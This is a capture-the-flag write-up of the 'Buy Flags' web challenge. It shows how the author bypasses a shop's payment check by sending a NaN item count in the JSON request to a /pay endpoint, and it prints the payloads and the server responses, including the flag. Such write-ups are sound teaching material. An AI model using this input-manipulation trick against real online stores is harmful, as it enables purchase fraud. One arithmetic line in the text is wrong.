 # Buy Flags [80]
> [Here](http://46.101.173.61/) is an online shop that sells flags :) but we don’t have enough money! Can you buy the flag?

First we try to buy the real flag and take a look at the request. We see that it just makes a POST request to the /pay endpoint with the following data
```
{"card":[{"name":"asis","count":1}],"coupon":""}
```
We get an error:
```
your credit not enough
```
So copy the request as cURL command and try it again with a negative count. The hope is that this will multiply with the price of the flag and then compare against our balance. -1 * 110 = -100 which is > 0

```
{"card":[{"name":"asis","count":-1}],"coupon":""}
```
Unfortunately we get another error:
```
{"result": "item count must be greater than zero"}
```
After trying some more input we find that we can pass a list or object as the count, and it will fail to convert it to a string.
Finally we try giving NaN for the count:
```
{"card":[{"name":"asis","count":NaN}],"coupon":""}
```
And we get the flag:
```
{"data": [{"data": "ASIS{th1@n_3xpens1ve_Fl@G}\n", "flag": "asis"}], "result": "pay success"}
```
This works because any comparisons with NaN will return false. So if the code checks for our input < 0, it will return false for NaN input and pass the negative input check.
